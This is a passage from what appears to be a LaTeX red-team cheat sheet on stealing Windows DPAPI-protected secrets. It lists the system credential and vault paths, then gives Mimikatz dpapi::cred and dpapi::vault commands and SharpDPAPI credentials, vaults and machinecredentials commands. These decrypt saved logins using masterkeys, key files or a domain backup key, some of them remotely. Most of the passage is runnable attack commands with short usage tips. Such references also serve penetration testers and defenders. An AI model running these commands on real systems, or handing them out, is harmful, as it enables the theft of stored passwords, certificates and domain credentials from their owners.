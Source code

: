 The local system also has Credentials and Vaults:

\begin{lstlisting}[language=sh]
C:\Windows\System32\config\systemprofile\AppData\[Roaming|Local]\Microsoft\...

C:\Windows\ServiceProfiles\[LocalService|NetworkService]\AppData\[Roaming|Local]\Microsoft\...
\end{lstlisting}

\subsubsection*{DPAPI Extracting Credentials}

Mimikatz can decrypt a saved credential:
\begin{lstlisting}[language=sh]
mimikatz # dpapi::cred /masterkey:SHA1 /in:C:\...\Credentials\ID
\end{lstlisting}

SharpDPAPI decrypts saved credentials:
\begin{lstlisting}[language=sh]
SharpDPAPI credentials [GUID1:SHA1 GUID2:SHA1 ...]

SharpDPAPI credentials /mkfile:MASTER_KEY_FILE.txt

SharpDPAPI credentials /pvk:BASE64 </server:SERVER.domain.com>
\end{lstlisting}
\textit{-> Triages user masterkeys first, also can work remotely!}

\begin{lstlisting}[language=sh]
SharpDPAPI machinecredentials
\end{lstlisting}
\textit{-> Elevates to extract DPAPI\_SYSTEM first to extract machine masterkeys}

\textit{Note: SharpDPAPI triage runs the user credentials, vaults, rdg, and certificates commands automatically!}

\subsubsection*{DPAPI Extracting Vaults}

Mimikatz can decrypt a vault:
\begin{lstlisting}[language=sh]
mimikatz # dpapi::vault /masterkey:SHA1 /cred:C:\...\ID.vcrd /policy:C:\...\Policy.vpol
\end{lstlisting}

SharpDPAPI decrypts vaults:
\begin{lstlisting}[language=sh]
SharpDPAPI vaults [GUID1:SHA1 GUID2:SHA1 ...]

SharpDPAPI vaults /mkfile:MASTER_KEY_FILE.txt

SharpDPAPI vaults /pvk:BASE64 </server:SERVER.domain.com>
\end{lstlisting}
\textit{-> Triages user masterkeys first, also can work remotely!}

